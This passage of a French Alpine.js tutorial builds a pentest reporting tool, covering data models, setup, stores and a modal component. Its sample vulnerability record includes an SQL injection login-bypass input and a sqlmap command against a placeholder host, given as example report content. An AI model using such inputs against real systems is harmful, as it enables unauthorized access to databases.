





# Alpine.js

<div
  class="omny-meta"
  data-level="🟢 Débutant & 🟡 Intermédiaire"
  data-version="3.13.3"
  data-time="15-16 heures">
</div>

## Introduction au Projet Fil Rouge - Pentest Reporting Tool

!!! quote "Analogie pédagogique"
    _Imaginez que vous êtes un **auditeur en cybersécurité** qui découvre des dizaines de vulnérabilités lors d'un test d'intrusion. Vous devez les **organiser, prioriser, documenter** et produire un rapport professionnel. Un tableur Excel serait trop rigide, un outil commercial trop coûteux. **Alpine.js est comme votre carnet de notes intelligent** : léger, réactif, qui s'adapte à votre workflow sans vous imposer une structure complexe. Chaque vulnérabilité devient une carte interactive, les filtres s'appliquent instantanément, et le rapport se génère automatiquement - le tout dans votre navigateur, sans serveur._

> Ce guide vous accompagne dans la création d'un **Pentest Reporting Tool** complet avec Alpine.js. Vous construirez une application professionnelle de gestion de vulnérabilités permettant de documenter, filtrer, prioriser et exporter des findings de tests d'intrusion. Ce projet réel et réutilisable vous permettra de maîtriser tous les concepts fondamentaux et avancés d'Alpine.js dans un contexte métier authentique.

!!! info "Pourquoi ce projet ?"
    - **Utile professionnellement** : Outil réel pour pentester indépendants et équipes sécurité
    - **Expertise métier** : Combine Alpine.js et connaissances cybersécurité (OWASP, CVSS)
    - **Exhaustif** : Couvre tous les concepts Alpine.js (directives, plugins, composants)
    - **Réutilisable** : Code adaptable à vos propres audits de sécurité
    - **Portfolio** : Démontre compétences techniques et domaine d'expertise
    - **Différenciant** : Niche cybersécurité absente des tutoriels Alpine.js classiques

### Objectifs Pédagogiques

À la fin de ce guide, vous saurez :

- ✅ Construire une application Alpine.js complète de A à Z
- ✅ Gérer un état complexe (CRUD, filtres, persistence)
- ✅ Créer des composants réutilisables (modals, dropdowns, accordéons)
- ✅ Intégrer les plugins officiels (Persist, Collapse, Focus, Intersect)
- ✅ Implémenter un calculateur CVSS 3.1 interactif
- ✅ Gérer la persistence avec LocalStorage
- ✅ Exporter des données multi-format (Markdown, HTML, PDF)
- ✅ Appliquer les bonnes pratiques de performance et accessibilité
- ✅ Comprendre l'intégration Alpine.js dans la Stack TALL (Laravel)

### Prérequis

**Connaissances requises :**

- HTML/CSS de base
- JavaScript fondamental (variables, fonctions, tableaux, objets)
- Notions de cybersécurité appréciées mais non obligatoires

**Outils nécessaires :**

- Navigateur moderne (Chrome, Firefox, Edge)
- Éditeur de code (VS Code recommandé)
- Serveur local optionnel (Live Server VS Code extension)

**Concepts Alpine.js assumés maîtrisés :**

- Directives fondamentales (`x-data`, `x-model`, `x-show`, `x-for`)
- Événements (`@click`, `@submit`)
- Binding bidirectionnel

!!! warning "Si vous débutez totalement avec Alpine.js"
    Consultez d'abord le [guide Alpine.js Fondamentaux](/dev-cloud/lang/alpinejs-fondamentaux/) pour acquérir les bases avant d'attaquer ce projet.

### Architecture de l'Application



### Structure de Données

**Modèle Finding (Vulnérabilité) :**

```javascript
const finding = {
    // Identifiant unique
    id: 'uuid-v4',
    
    // Informations générales
    title: 'SQL Injection dans formulaire de connexion',
    severity: 'critical', // critical, high, medium, low, info
    status: 'open', // open, confirmed, remediated, false-positive
    category: 'injection', // injection, xss, auth, crypto, config, etc.
    
    // Score CVSS
    cvss: {
        version: '3.1',
        vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H',
        score: 10.0,
        rating: 'Critical'
    },
    
    // Documentation technique
    description: 'L\'application est vulnérable aux injections SQL...',
    impact: 'L\'exploitation permet un accès complet à la base de données...',
    
    // Reproduction
    reproduction: [
        '1. Accéder à la page /login',
        '2. Dans le champ "username", injecter : admin\' OR 1=1--',
        '3. Observer la connexion réussie sans mot de passe'
    ],
    
    // Remédiation
    remediation: 'Utiliser des requêtes préparées (prepared statements) avec PDO ou similaire...',
    
    // Références
    references: [
        'OWASP Top 10 2021: A03 Injection',
        'CWE-89: SQL Injection',
        'https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html'
    ],
    
    // Preuve de concept
    proofOfConcept: 'sqlmap -u "http://target.com/login" --risk=3 --level=5',
    
    // Métadonnées
    discoveredAt: '2025-01-15T14:30:00Z',
    discoveredBy: 'Alain GUILLON',
    
    // Attachements (optionnel)
    screenshots: ['screenshot-01.png', 'screenshot-02.png'],
    
    // Tags personnalisés
    tags: ['webapp', 'authentication', 'database']
};
```

### Flux de Données



### Phases de Développement

Le projet est structuré en **8 phases progressives** :

| Phase | Titre | Durée | Concepts |
|-------|-------|-------|----------|
| 1 | Fondations & Setup | 2h | HTML, CSS, Alpine init, premier composant |
| 2 | CRUD Findings | 3h | x-data, x-for, modals, formulaires, validation |
| 3 | Filtres & Recherche | 1h45 | Computed properties, debounce, filtres multiples |
| 4 | CVSS Calculator | 1h30 | Logique métier complexe, calculs réactifs |
| 5 | Persistence | 1h30 | Plugin Persist, LocalStorage, import/export JSON |
| 6 | Export Multi-Format | 2h | Markdown, HTML, PDF, templates |
| 7 | Polish & UX | 1h45 | Dark mode, transitions, shortcuts clavier |
| 8 | Templates Library | 2h | Bibliothèque vulnérabilités OWASP Top 10 |

**Durée totale : 15h30**

### Aperçu du Résultat Final

**Fonctionnalités clés :**

- ✅ CRUD complet des vulnérabilités (Create, Read, Update, Delete)
- ✅ Calculateur CVSS 3.1 interactif intégré
- ✅ Filtres multiples (sévérité, statut, catégorie) avec recherche fulltext
- ✅ Statistiques temps réel (total findings, répartition sévérité, CVSS moyen)
- ✅ Persistence automatique LocalStorage
- ✅ Export Markdown / HTML / PDF
- ✅ Bibliothèque de 20+ templates OWASP Top 10
- ✅ Dark mode avec transition fluide
- ✅ Interface responsive (desktop, tablet, mobile)
- ✅ Accessibilité WCAG 2.1 AA
- ✅ 100% Alpine.js (pas de framework lourd)

---

## Phase 1 : Fondations & Setup (2h)

<div class="omny-meta" data-level="🟢 Débutant" data-time="2 heures"></div>

### Objectifs Phase 1

À la fin de cette phase, vous aurez :

- ✅ Structure de fichiers professionnelle
- ✅ HTML5 sémantique de base
- ✅ Intégration Tailwind CSS
- ✅ Alpine.js initialisé et fonctionnel
- ✅ Premier composant Alpine réactif
- ✅ État initial de l'application

### 1.1 Structure du Projet

Créez la structure de dossiers suivante :

```plaintext
alpine-pentest-tool/
├── index.html              # Page principale
├── assets/
│   ├── css/
│   │   ├── main.css       # Styles personnalisés
│   │   └── components.css # Styles composants
│   ├── js/
│   │   ├── app.js         # Configuration Alpine
│   │   ├── data/
│   │   │   ├── cvss.js    # Données CVSS 3.1
│   │   │   └── templates.js # Templates vulnérabilités
│   │   └── utils/
│   │       ├── export.js  # Fonctions export
│   │       └── cvss-calculator.js # Logique CVSS
│   └── images/
│       └── logo.svg
├── docs/
│   └── README.md          # Documentation
└── examples/
    └── sample-data.json   # Données exemple
```

### 1.2 HTML de Base

**Fichier :** `index.html`

```html
<!DOCTYPE html>
<html lang="fr" x-data="{ theme: $persist('light') }" :class="theme"> <!--(1)!-->
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Pentest Reporting Tool - Gestion de vulnérabilités avec Alpine.js">
    <title>Pentest Reporting Tool</title>
    
    <!-- Tailwind CSS CDN -->
    <script src="https://cdn.tailwindcss.com"></script> <!--(2)!-->
    
    <!-- Configuration Tailwind -->
    <script>
        tailwind.config = {
            darkMode: 'class', <!--(3)!-->
            theme: {
                extend: {
                    colors: {
                        critical: '#f44336',
                        high: '#ff9800',
                        medium: '#ffc107',
                        low: '#4caf50',
                        info: '#2196f3'
                    }
                }
            }
        }
    </script>
    
    <!-- Styles personnalisés -->
    <link rel="stylesheet" href="assets/css/main.css">
    
    <!-- Alpine.js Plugins -->
    <script defer src="https://cdn.jsdelivr.net/npm/@alpinejs/persist@3.x.x/dist/cdn.min.js"></script> <!--(4)!-->
    <script defer src="https://cdn.jsdelivr.net/npm/@alpinejs/collapse@3.x.x/dist/cdn.min.js"></script>
    <script defer src="https://cdn.jsdelivr.net/npm/@alpinejs/focus@3.x.x/dist/cdn.min.js"></script>
    
    <!-- Alpine.js Core -->
    <script defer src="https://cdn.jsdelivr.net/npm/alpinejs@3.x.x/dist/cdn.min.js"></script> <!--(5)!-->
</head>
<body class="bg-gray-50 dark:bg-gray-900 transition-colors duration-200"> <!--(6)!-->
    
    <!-- Application principale -->
    <div id="app" x-data="pentestApp()"> <!--(7)!-->
        
        <!-- Header -->
        <header class="bg-white dark:bg-gray-800 shadow-sm border-b border-gray-200 dark:border-gray-700">
            <div class="container mx-auto px-4 py-4">
                <div class="flex items-center justify-between">
                    <!-- Logo & Title -->
                    <div class="flex items-center space-x-3">
                        <svg class="w-8 h-8 text-blue-600" fill="currentColor" viewBox="0 0 20 20">
                            <path d="M9 2a1 1 0 000 2h2a1 1 0 100-2H9z"></path>
                            <path fill-rule="evenodd" d="M4 5a2 2 0 012-2 3 3 0 003 3h2a3 3 0 003-3 2 2 0 012 2v11a2 2 0 01-2 2H6a2 2 0 01-2-2V5zm3 4a1 1 0 000 2h.01a1 1 0 100-2H7zm3 0a1 1 0 000 2h3a1 1 0 100-2h-3zm-3 4a1 1 0 100 2h.01a1 1 0 100-2H7zm3 0a1 1 0 100 2h3a1 1 0 100-2h-3z" clip-rule="evenodd"></path>
                        </svg>
                        <h1 class="text-xl font-bold text-gray-900 dark:text-white">
                            Pentest Reporting Tool
                        </h1>
                    </div>
                    
                    <!-- Actions -->
                    <div class="flex items-center space-x-4">
                        <!-- Dark Mode Toggle -->
                        <button @click="$store.theme.toggle()" <!--(8)!-->
                                class="p-2 rounded-lg hover:bg-gray-100 dark:hover:bg-gray-700 transition">
                            <svg x-show="$store.theme.current === 'light'" 
                                 class="w-5 h-5" fill="currentColor" viewBox="0 0 20 20">
                                <path d="M17.293 13.293A8 8 0 016.707 2.707a8.001 8.001 0 1010.586 10.586z"></path>
                            </svg>
                            <svg x-show="$store.theme.current === 'dark'" 
                                 class="w-5 h-5" fill="currentColor" viewBox="0 0 20 20">
                                <path fill-rule="evenodd" d="M10 2a1 1 0 011 1v1a1 1 0 11-2 0V3a1 1 0 011-1zm4 8a4 4 0 11-8 0 4 4 0 018 0zm-.464 4.95l.707.707a1 1 0 001.414-1.414l-.707-.707a1 1 0 00-1.414 1.414zm2.12-10.607a1 1 0 010 1.414l-.706.707a1 1 0 11-1.414-1.414l.707-.707a1 1 0 011.414 0zM17 11a1 1 0 100-2h-1a1 1 0 100 2h1zm-7 4a1 1 0 011 1v1a1 1 0 11-2 0v-1a1 1 0 011-1zM5.05 6.464A1 1 0 106.465 5.05l-.708-.707a1 1 0 00-1.414 1.414l.707.707zm1.414 8.486l-.707.707a1 1 0 01-1.414-1.414l.707-.707a1 1 0 011.414 1.414zM4 11a1 1 0 100-2H3a1 1 0 000 2h1z" clip-rule="evenodd"></path>
                            </svg>
                        </button>
                        
                        <!-- Stats rapides -->
                        <div class="hidden md:flex items-center space-x-3 text-sm">
                            <span class="text-gray-600 dark:text-gray-400">
                                Total: <strong x-text="findings.length"></strong>
                            </span>
                            <span class="text-critical">
                                Critical: <strong x-text="stats.critical"></strong>
                            </span>
                        </div>
                    </div>
                </div>
            </div>
        </header>
        
        <!-- Main Content -->
        <main class="container mx-auto px-4 py-8">
            <p class="text-gray-600 dark:text-gray-400">Application chargée avec succès.</p>
            <p class="text-sm text-gray-500">Nombre de findings: <strong x-text="findings.length"></strong></p>
        </main>
        
    </div>
    
    <!-- Scripts -->
    <script src="assets/js/app.js"></script>
    
</body>
</html>
```

1. **`x-data` global** : Définit le thème au niveau `<html>` pour le dark mode
2. **Tailwind CDN** : Version CDN pour prototypage rapide (production = build)
3. **Dark mode** : Activation du mode classe (`.dark`)
4. **Plugins Alpine** : Persist pour LocalStorage, Collapse pour accordéons, Focus pour modals
5. **Alpine Core** : TOUJOURS en dernier après les plugins
6. **Classes dark** : Tailwind applique automatiquement si parent a `.dark`
7. **Application Alpine** : Point d'entrée avec fonction `pentestApp()`
8. **Alpine Store** : État global accessible partout (voir app.js)

### 1.3 Configuration Alpine.js

**Fichier :** `assets/js/app.js`

```javascript
/**
 * Configuration Alpine.js - Pentest Reporting Tool
 * Initialisation des stores globaux et composants
 */

document.addEventListener('alpine:init', () => { // (1)!
    
    /**
     * Store global Theme
     * Gère le dark mode de l'application
     */
    Alpine.store('theme', { // (2)!
        current: Alpine.$persist('light').as('app-theme'), // (3)!
        
        toggle() {
            this.current = this.current === 'light' ? 'dark' : 'light';
            document.documentElement.classList.toggle('dark'); // (4)!
        },
        
        init() { // (5)!
            // Appliquer le thème sauvegardé au chargement
            if (this.current === 'dark') {
                document.documentElement.classList.add('dark');
            }
        }
    });
    
    /**
     * Store global Modals
     * Gère l'état des modals de l'application
     */
    Alpine.store('modals', {
        add: false,
        edit: false,
        cvss: false,
        templates: false,
        export: false
    });
    
    /**
     * Composant principal PentestApp
     * État et logique de l'application
     */
    Alpine.data('pentestApp', () => ({ // (6)!
        // État
        findings: Alpine.$persist([]).as('findings'), // (7)!
        filters: {
            search: '',
            severity: [],
            status: [],
            category: []
        },
        
        // Composant initialisé
        init() {
            console.log('Pentest Reporting Tool initialisé');
            console.log(`${this.findings.length} findings chargés`);
            
            // Charger exemple si vide (première utilisation)
            if (this.findings.length === 0) {
                this.loadSampleData();
            }
        },
        
        // Statistiques calculées
        get stats() { // (8)!
            return {
                total: this.findings.length,
                critical: this.findings.filter(f => f.severity === 'critical').length,
                high: this.findings.filter(f => f.severity === 'high').length,
                medium: this.findings.filter(f => f.severity === 'medium').length,
                low: this.findings.filter(f => f.severity === 'low').length,
                info: this.findings.filter(f => f.severity === 'info').length
            };
        },
        
        // Charger données exemple
        loadSampleData() {
            const sample = {
                id: crypto.randomUUID(),
                title: 'SQL Injection dans formulaire de connexion',
                severity: 'critical',
                status: 'open',
                category: 'injection',
                description: 'L\'application est vulnérable aux injections SQL dans le champ username.',
                cvss: null,
                discoveredAt: new Date().toISOString()
            };
            
            this.findings.push(sample);
            console.log('Données exemple chargées');
        }
    }));
    
    // Initialiser theme store
    Alpine.store('theme').init();
    
});
```

1. **Event alpine:init** : S'exécute avant le démarrage d'Alpine, idéal pour configuration globale
2. **Alpine.store()** : Crée un store global accessible via `$store.theme` partout dans l'app
3. **$persist()** : Plugin Persist sauvegarde automatiquement dans LocalStorage
4. **classList.toggle()** : Ajoute/retire classe `.dark` sur `<html>`
5. **init()** : Méthode appelée au chargement pour appliquer thème sauvegardé
6. **Alpine.data()** : Enregistre composant global réutilisable
7. **Persistence findings** : Tableau de vulnérabilités sauvegardé dans LocalStorage
8. **Computed property** : Recalculé automatiquement quand `findings` change

### 1.4 Styles Personnalisés

**Fichier :** `assets/css/main.css`

```css
/**
 * Styles personnalisés - Pentest Reporting Tool
 */

/* Variables CSS */
:root {
    --color-critical: #f44336;
    --color-high: #ff9800;
    --color-medium: #ffc107;
    --color-low: #4caf50;
    --color-info: #2196f3;
    
    --transition-duration: 200ms;
}

/* Reset & Base */
* {
    margin: 0;
    padding: 0;
    box-sizing: border-box;
}

body {
    font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, sans-serif;
    line-height: 1.6;
}

/* Scrollbar personnalisée */
::-webkit-scrollbar {
    width: 8px;
    height: 8px;
}

::-webkit-scrollbar-track {
    background: #f1f1f1;
}

.dark ::-webkit-scrollbar-track {
    background: #1f2937;
}

::-webkit-scrollbar-thumb {
    background: #888;
    border-radius: 4px;
}

::-webkit-scrollbar-thumb:hover {
    background: #555;
}

/* Badges de sévérité */
.badge-critical {
    background-color: var(--color-critical);
    color: white;
}

.badge-high {
    background-color: var(--color-high);
    color: white;
}

.badge-medium {
    background-color: var(--color-medium);
    color: #000;
}

.badge-low {
    background-color: var(--color-low);
    color: white;
}

.badge-info {
    background-color: var(--color-info);
    color: white;
}

/* Transitions globales */
.transition-all {
    transition: all var(--transition-duration) ease-in-out;
}

/* Focus visible pour accessibilité */
*:focus-visible {
    outline: 2px solid #3b82f6;
    outline-offset: 2px;
}

/* Animations */
@keyframes fadeIn {
    from { opacity: 0; transform: translateY(10px); }
    to { opacity: 1; transform: translateY(0); }
}

.animate-fadeIn {
    animation: fadeIn 0.3s ease-out;
}

/* Print styles */
@media print {
    body {
        background: white !important;
        color: black !important;
    }
    
    header, nav, button {
        display: none !important;
    }
}
```

### 1.5 Test Initial

**Vérifications :**

1. ✅ Ouvrir `index.html` dans le navigateur
2. ✅ Vérifier console : "Pentest Reporting Tool initialisé"
3. ✅ Cliquer bouton dark mode → Thème change
4. ✅ Recharger page → Thème persiste
5. ✅ Voir "1 findings chargés" (données exemple)

**Console attendue :**

```
Pentest Reporting Tool initialisé
1 findings chargés
Données exemple chargées
```

### 1.6 Exercice Pratique Phase 1

!!! question "Mission : Ajouter un Badge de Statut"
    Ajoutez un indicateur visuel dans le header affichant le statut de l'application (nombre de findings critiques).
    
    **Objectif :** Badge rouge avec compteur findings critiques, visible uniquement si > 0
    
    **Indices :**
    1. Utiliser `x-show` pour affichage conditionnel
    2. Utiliser computed property `stats.critical`
    3. Appliquer classe `badge-critical`

??? success "Solution"
    ```html
    <!-- Dans le header, après les stats -->
    <div x-show="stats.critical > 0"
         x-transition
         class="badge-critical px-3 py-1 rounded-full text-xs font-semibold">
        <span x-text="stats.critical"></span> Critical
    </div>
    ```

### Points Clés à Retenir Phase 1

- 🔑 **Structure** : Séparer HTML, CSS, JS dans dossiers dédiés
- 🔑 **Alpine Stores** : État global avec `Alpine.store()` pour dark mode, modals
- 🔑 **Plugin Persist** : `$persist()` sauvegarde automatiquement dans LocalStorage
- 🔑 **Computed Properties** : Getters recalculés automatiquement (ex: `stats`)
- 🔑 **alpine:init** : Hook pour configuration avant démarrage Alpine
- 🔑 **Dark Mode** : Combinaison classe `.dark` (HTML) + Tailwind `dark:`

### Prochaine Étape

Dans la Phase 2, nous allons implémenter le **CRUD complet** des findings avec modals, formulaires et validation.

---

## Phase 2 : CRUD Findings (3h)

<div class="omny-meta" data-level="🟢 Débutant → 🟡 Intermédiaire" data-time="3 heures"></div>

### Objectifs Phase 2

À la fin de cette phase, vous saurez :

- ✅ Créer des modals réutilisables avec Alpine
- ✅ Gérer des formulaires complexes avec `x-model`
- ✅ Valider des données côté client
- ✅ Implémenter Create, Read, Update, Delete
- ✅ Utiliser `x-for` pour listes dynamiques
- ✅ Gérer les états de chargement

### 2.1 Structure Données Finding

**Schéma complet d'une vulnérabilité :**

```javascript
const findingSchema = {
    // Identifiant
    id: 'string (UUID v4)', // Généré avec crypto.randomUUID()
    
    // Informations essentielles
    title: 'string (required, min:3, max:200)',
    severity: 'enum (critical|high|medium|low|info)',
    status: 'enum (open|confirmed|remediated|false-positive)',
    category: 'enum (injection|xss|auth|crypto|config|misc)',
    
    // Documentation
    description: 'string (textarea)',
    impact: 'string (textarea)',
    reproduction: 'array<string>', // Étapes numérotées
    remediation: 'string (textarea)',
    proofOfConcept: 'string (textarea, code)',
    references: 'array<string>', // URLs ou références OWASP/CWE
    
    // CVSS
    cvss: {
        version: '3.1',
        vector: 'string (CVSS:3.1/...)',
        score: 'float (0.0-10.0)',
        rating: 'string (None|Low|Medium|High|Critical)'
    } || null,
    
    // Métadonnées
    discoveredAt: 'datetime (ISO 8601)',
    discoveredBy: 'string',
    tags: 'array<string>',
    
    // Optionnel
    screenshots: 'array<string>', // Noms fichiers
    notes: 'string (textarea, private)'
};
```

### 2.2 Modal Composant Réutilisable

Créons d'abord un **composant modal générique** réutilisable.

**Fichier :** Ajouter dans `assets/js/app.js`

```javascript
/**
 * Composant Modal Réutilisable
 * Usage: <div x-data="modal()">...</div>
 */
Alpine.data('modal', () => ({
    isOpen: false,
    
    open() {
        this.isOpen = true;
        document.body.style.overflow = 'hidden'; // (1)!
    },
    
    close() {
        this.isOpen = false;
        document.body.style.overflow = '';
    },
    
    // Fermer avec Escape
    init() {
        this.$watch('isOpen', value => { // (2)!
            if (value) {
                const handler = (e) => {
                    if (e.key === 'Escape') this.close();
                };
                document.addEventListener('keydown', handler);
                this.$cleanup(() => document.removeEventListener('keydown', handler)); // (3)!
            }
        });
    }
}));
```

1. **Bloquer scroll** : Empêche scroll body quand modal ouverte (UX)
2. **$watch** : Observer changements `isOpen` pour setup/cleanup événements
3. **$cleanup** : Magic property Alpine pour cleanup automatique à la destruction

**Template Modal :**

```html
<!-- Template à réutiliser pour tous les modals -->
<template x-if="isOpen">
    <div class="fixed inset-0 z-50 flex items-center justify-center p-4"
         x-transition:enter="ease-out duration-300"
         x-transition:enter-start="opacity-0"
         x-transition:enter-end="opacity-100"
         x-transition:leave="ease-in duration-200"
         x-transition:leave-start="opacity-100"
         x-transition:leave-end="opacity-0">
        
        <!-- Backdrop -->
        <div @click="close()" 
             class="absolute inset-0 bg-black bg-opacity-50"></div>
        
        <!-- Modal Content -->
        <div @click.stop 
             x-trap="isOpen"
             x-transition:enter="ease-out duration-300"
             x-transition:enter-start="opacity-0 translate-y-4"
             x-transition:enter-end="opacity-100 translate-y-0"
             class="relative bg-white dark:bg-gray-800 rounded-lg shadow-xl max-w-2xl w-full max-h-[90vh] overflow-y-auto">
            
            <!-- Header -->
            <div class="sticky top-0 bg-white dark:bg-gray-800 border-b border-gray-200 dark:border-gray-700 px-6 py-4 flex items-center justify-between">
                <h2 class="text-xl font-semibold text-gray-900 dark:text-white">
